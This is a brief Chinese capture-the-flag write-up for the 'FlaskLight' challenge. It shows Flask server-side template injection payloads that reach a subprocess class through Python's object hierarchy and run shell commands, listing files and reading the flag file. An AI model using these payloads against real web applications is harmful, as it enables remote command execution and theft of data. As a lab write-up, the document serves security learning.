 # \[CSCCTF 2019 Qual]FlaskLight

## \[CSCCTF 2019 Qual]FlaskLight

## 考点

* Flask SSTI

## wp

![](<../../.gitbook/assets/image (14) (1) (1) (1) (1).png>)

F12，给了提示

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1).png>)

题目是名字Flask，尝试一下SSTI

![](<../../.gitbook/assets/image (4) (1) (1) (1) (1).png>)

然后找可以利用的类

```
?search={{[].__class__.__mro__[1].__subclasses__()}}
?search={{[].__class__.__mro__[1].__subclasses__()[258]("ls",shell=True,stdout=-1).communicate()[0]}}
?search={{[].__class__.__mro__[1].__subclasses__()[258]("cat flasklight/coomme_geeeett_youur_flek",shell=True,stdout=-1).communicate()[0]}}
```

## 小结

1. 常规Flask SSTI
